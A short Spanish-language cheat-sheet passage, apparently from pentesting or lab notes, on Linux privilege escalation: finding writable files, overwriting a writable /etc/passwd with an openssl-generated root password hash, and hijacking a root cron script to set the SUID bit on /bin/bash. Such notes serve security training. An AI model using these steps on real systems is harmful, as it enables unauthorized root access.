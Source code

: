-- - 
## /etc/passwd

Si realizamos un barrido a nivel de sistema para ver que archivos tienen permisos de escritura
```bash
find / -writable 2>/dev/null
```

Si luego de eso encontramos que podemos escribir sobre el /etc/passwd (nada normal) podemos con openssl generar un hash de una contraseña la cual pueda interpretar el archivo y asi cambiar la contraseña al usuario root 
```bash 
openssl passwd
"Contraseña nueva"
```
-- - 
## Script con privilegios en directorio personal

Si el usuario root tiene definida una tarea Cron que ejecuta un script en nuestro directorio personal de trabajo, podemos eliminarlo para asi crear otro archivo con el mismo nombre y poner por ejemplo este contenido.
```bash
#!/bin/bash 

chmod u+s /bin/bash

# Con este comando podemos quedarnos viendo y ejecutando a la vez de manera secuencial un comando y su output
watch -n 1 ls -l /bin/bash
```

-- - 
